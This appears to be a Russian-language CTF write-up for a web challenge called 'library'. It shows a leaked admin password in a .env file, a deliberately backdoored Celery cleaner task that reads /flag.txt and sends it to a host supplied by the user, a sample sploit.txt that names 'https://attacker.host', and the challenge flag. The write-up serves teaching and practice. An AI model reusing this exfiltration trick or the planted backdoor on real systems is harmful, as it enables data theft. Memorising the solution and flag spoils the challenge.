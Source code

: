 
# web | library | medium

## Информация

> Я создал электронную бибилиотеку, пока она на стадии разработки, но я надеюсь что у меня максимально безопасный сервис и с кодом все хорошо, проверь его на всякий случай, пожалуйста =)

## Деплой

```bash
cd deploy
docker-compose up --build -d
```

## Выдать участникам

public/public.zip

## Описание

в коде сливается пароль админской учетки, при этом новые книги можно загрузить только из панели админа, все книги, которым больше 30 секунд удаляются и вызывается очень странный код - явно создавался для админа, чтобы исполнять код.

## Решение

в .env файле сливается пароль админа

```
SERVER_PORT=8900
EMAIL_HOST_USER=admin@mylibrary.ru
EMAIL_HOST_PASSWORD=to!R>@gq~Q8y2?XVVGe:
                                        
```

посмотрим кусок кода в celery таске cleaner.py - если загрузить bash скрипт, то он исполнится, чтобы было безопаснее, то в код явно уже встроены методы взятия флага и резолва на удаленный хост

```php
def cleaner():
    books_to_delete = Book.objects.filter(created_at__lte=timezone.now() - timezone.timedelta(seconds=30))
  
    deleted_count = 0
  
    for book in books_to_delete:
        file_path = os.path.join(BOOK_STORE, f"{book.uid}.txt")
        try:
            with open(file_path, 'r') as f:
                lines = f.readlines()
                if len(lines) == 3 and '#!/usr/bin/bash' in lines[0] and "cat " in lines[1]:
                    flag = ""

                    with open("/flag.txt", 'r') as f1:
                        for i in f1:
                            flag+=i.replace('\n','')
                    dom = lines[2].replace('\n','')
                    url = f"{dom}/{flag}"
                    requests.get(url, verify=False, timeout=1)
            
                
            
            book.delete()
            deleted_count += 1
        
        except FileNotFoundError:
            print(f"File for {book.title} not found.")
            book.delete()
            deleted_count += 1
```

пример sploit.txt: (именно txt потому что книга!) - его надо загрузить как книгу

```
#!/usr/bin/bash
cat flag
https://attacker.host
```

## Флаг

ctf{1_th1nk_1t_will_b3_e4sy!}
